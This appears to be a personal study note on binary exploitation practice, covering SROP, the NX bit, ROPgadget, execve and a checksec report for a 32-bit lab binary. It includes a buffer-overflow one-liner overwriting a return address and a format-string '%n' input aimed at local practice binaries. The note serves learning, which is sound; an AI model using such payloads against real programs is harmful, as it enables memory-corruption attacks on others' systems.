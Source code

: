 # Lesson
- Sigreturn-oriented programming (SROP)  
  https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  
- NX bit  
  whether shellcode is effective or not  
  https://d2v.hatenablog.com/entry/2021/06/24/003258  
- `ROPgadget`  
  `ROPgadget` is installed with pwntools.
  ```zsh
  # use python3 with pwntools
  $ ROPgadget --binary ./vuln --re "pop ebx"
  ```
- how to input bytes value on stdin
  ```zsh
  (python -c "print 'a' * 76 + '\xe6\x85\x04\x08';") | ./vuln
  ```
  or
  ```zsh
  $ echo -e '\xdd\xcc\xbb\xaa%46c%6$n' | ./q4
  ```
  - how can I input bytes value during `pwndbg`  
    This does not work well.
    ```
    n << (python -c "print '\x90\x90'")
    n << (echo -e '\x90\x90')
    ```
- `execve`  
  https://en.wikipedia.org/wiki/Exec_(system_call)  
  https://wiki.mma.club.uec.ac.jp/ytoku/Slides/Pwn%E5%8B%89%E5%BC%B7%E4%BC%9A  
  https://manpages.ubuntu.com/manpages/focal/ja/man2/execve.2.html  
  - how to know the usage of `execve` on a machine code level
    1. qwrite simple c programe that use the system call - for instance `execve`  
    2. compile it  
    3. debug it with `gdb` and check it  

# Memo
1. check
```zsh
$ file ./vuln
./vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec --file=./vuln --output=json | jq .
{
  "./vuln": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "n/a",
    "runpath": "n/a",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

# Ref  
- https://qiita.com/housu_jp/items/2be2b8147f35a4d6a6ce  